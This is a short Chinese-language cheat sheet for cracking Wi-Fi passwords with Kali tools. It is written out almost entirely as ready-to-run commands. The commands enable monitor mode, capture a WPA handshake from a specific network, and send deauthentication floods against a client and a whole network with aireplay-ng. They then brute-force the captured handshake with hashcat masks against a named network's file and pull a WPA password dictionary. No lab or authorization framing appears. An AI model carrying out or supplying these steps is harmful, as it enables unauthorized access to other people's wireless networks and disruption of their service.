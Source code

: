 # Kali WIFI 破解

## 1.监听

airmon-ng start wlan0

## 2.搜索网络

airodump-ng wlan0mon

## 3.监听 Wi-Fi 抓包

> -w handshark
>
> 抓包放在 handshark
>
> -c 信道
>
> --bssid 网络 MAC 地址
>
> wlan0mon 监听网络

```
airodump-ng -w handshark -c 4 --bssid 04:20:84:0D:18:29 wlan0mon
```

## 4.ACK 攻击

```
# 攻击客户机
aireplay-ng --deauth 10 -a 74:05:A5:8F:04:B7 -c 74:05:A5:8F:04:B7 wlan0mon --ignore-negative-one

# 攻击网络
aireplay-ng --deauth 0 -a 18:F2:2C:26:30:70 --ignore-negative-one wlan0mon
```

## Hashcat

```
-a  指定要使用的破解模式，其值参考后面对参数。“-a 0”字典攻击，“-a 1” 组合攻击；“-a 3”掩码攻击。
-m  指定要破解的hash类型，如果不指定类型，则默认是MD5
-o  指定破解成功后的hash及所对应的明文密码的存放位置,可以用它把破解成功的hash写到指定的文件中
--force 忽略破解过程中的警告信息,跑单条hash可能需要加上此选项
--show  显示已经破解的hash及该hash所对应的明文
--increment  启用增量破解模式,你可以利用此模式让hashcat在指定的密码长度范围内执行破解过程
--increment-min  密码最小长度,后面直接等于一个整数即可,配置increment模式一起使用
--increment-max  密码最大长度,同上
--outfile-format 指定破解结果的输出格式id,默认是3
--username   忽略hash文件中的指定的用户名,在破解linux系统用户密码hash可能会用到
--remove     删除已被破解成功的hash
-r       使用自定义破解规则
--session 保存进度
--session <session> --restore 恢复进度
```

- 破解 8-11 位数字+小写

```
.\hashcat.exe -a 3 -m 22000 "C:\Users\Goojoe\Desktop\wifi-path\ChinaNet-6uG9Cu.hc22000" -o "C:\Users\Goojoe\Desktop\wifi-path\passwd.txt" --increment --increment-min 8 --increment-max 11 --custom-charset1 ?l?d ?1?1?1?1?1?1?1?1?1?1?1

.\hashcat.exe -a 3 -m 22000 "C:\Users\Goojoe\Desktop\wifi-path\ChinaNet-6uG9Cu.hc22000" -o "C:\Users\Goojoe\Desktop\wifi-path\passwd.txt" --increment --increment-min 8 --increment-max 11 --custom-charset1 ?l?d ?1?1?1?1?1?1?1?1?1?1?1 --session 6uG9Cu
```

## 字典

- [Github](https://github.com/conwnet/wpa-dictionary)

```
git clone https://gitclone.com/github.com/conwnet/wpa-dictionary.git
```
